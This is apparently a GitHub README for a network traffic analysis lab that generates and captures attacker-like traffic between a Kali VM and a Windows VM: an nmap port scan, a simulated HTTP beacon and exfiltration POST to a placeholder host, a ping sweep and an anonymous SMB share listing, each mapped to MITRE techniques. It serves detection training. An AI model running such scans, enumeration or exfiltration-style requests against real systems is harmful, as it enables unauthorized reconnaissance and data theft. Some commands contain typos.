  ## ⛓ Network Traffic Analysis (Kali + Windows)
 ### Objective
Capture and analyze network traffic for common attacker behaviors (scan, beacon/HTTP exfil, ICMP sweep, SMB touch) and document detections.

### Lab Topology
- Put Kali and Windows on the same **Host-Only** or Internal network in your hypervisor.
- Find IPs:
   + Kali: `ip a` (note interface like eth0 or ens33)
     + Kali (attacker/analyst): `<KALI_IP>`
   + Windows: `ipconfig`
     + Windows 10 VM (victim): `<WIN_IP>`

### Tools
- tcpdump / Wireshark (packet capture)
  + **Kali:**
   ```Bash
   sudo apt update
   sudo apt install -y wireshark tcpdump zeek nmap curl
   ```
  + **Windows:** install **Wireshark (optional) and ensure **PowerShell** is available.

    **Note:** capture on Kali (attacker) while you generate traffic between Kali ↔ Windows.
- Zeek (pcap → structured logs)
- (Optional) Splunk (search/visualize Zeek logs)

### First capture
This is the **Baseline** capture.
1. Method 1: On Kali (replace `eth0` with your interface):

```Bash

Sudo tcpdump -i eth0 -w baseline .pcap
```
Leave this running while you generate traffic (next section). Press **Ctrl+C** to stop and write the file.


2.  Using Wireshark (my preffered option)
Start **Wireshark** on Kali → select your interface → click start (blue shar icon) → later click Stop (red square) → Save as `baseline.pcap`. 


### Scenarios
We’ll do 4 useful, resume-worthy scenarios. Run each while capturing (new pcap per scenario), then stop capture after each.

1. Port scan → `scan_windows.pcap` (MITRE T1046)
On **Kali:**

```bash
Sudo nmap -sS -T4 -p 1-1024 <WINDOWS_IP>

```

Save capture as `scan_windows.pcap`.
**MITRE:** Discovery (T1046 - Network Service Discovery)
  
2. HTTP beacon/exfil → `http_exfil.pcap` (T1071.001, T1041)
On **Kali**, start a mini web server:

```bash
pythons -m http.server 8000

```

On Windows (PowerShell), send a fake “beacon/exfil” POST:

```powershell

Invoke-WebRequest -Uri "http://<KALI_IP>:8000/upload" -Method POST -Body "sample=hello&user=victim1"
Start-Sleep -Seconds 5
Invoke-WebRequest -Uri "http://<KALI_IP>:8000/beat"   -Method GET

```

Stop capture → save as `http_exfil.pcap`.
**MITRE:** Command & Control (T1071.001 - Web Protocols), Exfiltration (T1041 - Exfil over C2 channel)

3. ICMP sweep → `icmp_sweep.pcap` (T1018)
On **Kali** (pick your /24):

```bash

sudo nmap -sn <YOUR_SUBNET>/24

```

Save as `icmp_sweep.pcap`.
**MITRE:** Discovery (T108 - Remote System Discovery)

4. SMB touch → `smb_touch.pcap` (T1135)
From **Kali** (non-auth listing may fail harmlessly but still generates traffic):

```bash
smbclient -L //<WINDOWS_IP>/ -N

```
Save as `smb_touch.pcap`.
**MITRE:** Discovery (T1135 - Network Share Discovery), Lateral Movement (surface only)
Tip: Keep pcaps <50-100 MB; if larger, zip them.

### How to Reproduce
See `reports/NTA_Methodology.md` for exact commands and Wireshark filters.

### Findings
- `reports/Findings_scan.md`
- `reports/Findings_http.md`
- `reports/Findings_icmp.md`
- `reports/Findings_smb.md`

### Evidence
- `pcaps/` (captured traffic)
- `zeek/` (parsed logs)
- `screenshots/` (Wireshark/Splunk)
